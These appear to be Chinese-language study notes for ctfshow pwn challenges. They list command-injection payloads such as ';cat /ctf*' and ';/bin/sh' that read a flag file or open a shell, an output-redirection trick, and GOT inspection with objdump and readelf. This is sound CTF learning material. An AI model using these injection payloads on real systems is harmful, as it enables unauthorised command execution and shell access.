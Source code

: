 ## ;cat /ctf*  

### 通配符 * 匹配 任意长度 包括0长度 的任意字符序列

##  ;/bin/sh

### 直接拿取一个 shell

## 重定向  

```shell
echo 'flag is here' >>/ctfshow_flag
echo 'flag is here' >/ctfshow_flag
```

### >>  追加写入
 
### >   覆盖写入

### 1>&0  

#### 0 标准输入 1 标准输出

```shell
exec cat /ctf* 1>&0
```

1>&0 
通过将标准输出重定向到标准输入
可以实现将命令的输出作为后续命令的输入

这样可以在执行sh 命令后，进入一个交互式的Shell环境

可以在该环境中执行命令并与用户进行交互


## objdump

```shell
objdump -R  pwn
```

```shell
# 查看一下表项地址

readelf -S pwn
```

## got表 got.lib表  全局偏移表（Global Offset Table，简称 GOT）

```shell
./pwn 0x600fc0

查看表项地址 后 got表 address 为 0x600fc0

```
### GOT可写